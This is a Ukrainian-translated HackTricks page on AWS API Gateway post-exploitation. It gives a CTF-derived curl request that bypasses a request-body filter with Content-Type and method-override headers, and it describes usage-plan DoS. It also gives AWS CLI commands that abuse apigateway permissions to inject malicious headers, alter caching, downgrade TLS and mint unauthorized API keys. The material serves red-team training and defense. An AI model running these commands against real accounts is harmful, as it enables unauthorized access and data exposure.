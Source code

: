 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Доступ до неекспонованих API

Ви можете створити кінцеву точку в [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) з сервісом `com.amazonaws.us-east-1.execute-api`, експонувати кінцеву точку в мережі, до якої у вас є доступ (можливо, через машину EC2) і призначити групу безпеки, що дозволяє всі з'єднання.\
Потім, з машини EC2 ви зможете отримати доступ до кінцевої точки і, отже, викликати API шлюзу, який раніше не був експонований.

### Обхід пропуску тіла запиту

Цю техніку було виявлено в [**цьому CTF звіті**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Як зазначено в [**документації AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) в розділі `PassthroughBehavior`, за замовчуванням значення **`WHEN_NO_MATCH`**, при перевірці заголовка **Content-Type** запиту, передасть запит на бекенд без трансформації.

Отже, в CTF API Gateway мав шаблон інтеграції, який **перешкоджав ексфільтрації прапора** у відповіді, коли запит надсилався з `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Однак, надсилання запиту з **`Content-type: text/json`** запобігло б цьому фільтру.

Нарешті, оскільки API Gateway дозволяв лише `Get` та `Options`, було можливим надіслати довільний запит до dynamoDB без жодних обмежень, надіславши POST запит з запитом у тілі та використовуючи заголовок `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

У розділі **Enumeration** ви можете побачити, як **отримати план використання** ключів. Якщо у вас є ключ і він **обмежений** до X використань **на місяць**, ви можете **просто використовувати його і викликати DoS**.

**API Key** просто потрібно **включити** в **HTTP заголовок** під назвою **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateGatewayResponse` та `apigateway:CreateDeployment` може **модифікувати існуючу відповідь шлюзу, щоб включити користувацькі заголовки або шаблони відповідей, які витікають чутливу інформацію або виконують шкідливі скрипти**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Витік чутливої інформації, виконання шкідливих скриптів або несанкціонований доступ до ресурсів API.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateStage` та `apigateway:CreateDeployment` може **модифікувати існуючий етап API Gateway, щоб перенаправити трафік на інший етап або змінити налаштування кешування для отримання несанкціонованого доступу до кешованих даних**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Несанкціонований доступ до кешованих даних, порушення або перехоплення API-трафіку.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:PutMethodResponse` та `apigateway:CreateDeployment` може **модифікувати відповідь методу існуючого методу API Gateway REST API, щоб включити користувацькі заголовки або шаблони відповідей, які витікають чутливу інформацію або виконують шкідливі скрипти**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Потенційний вплив**: Витік чутливої інформації, виконання шкідливих скриптів або несанкціонований доступ до ресурсів API.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateRestApi` та `apigateway:CreateDeployment` може **змінити налаштування REST API API Gateway, щоб вимкнути ведення журналів або змінити мінімальну версію TLS, що потенційно послаблює безпеку API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potential Impact**: Послаблення безпеки API, що потенційно дозволяє несанкціонований доступ або викриття чутливої інформації.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Зловмисник з правами `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` та `apigateway:CreateUsagePlanKey` може **створювати нові API ключі, асоціювати їх з планами використання, а потім використовувати ці ключі для несанкціонованого доступу до API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Потенційний вплив**: Несанкціонований доступ до ресурсів API, обхід засобів безпеки.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
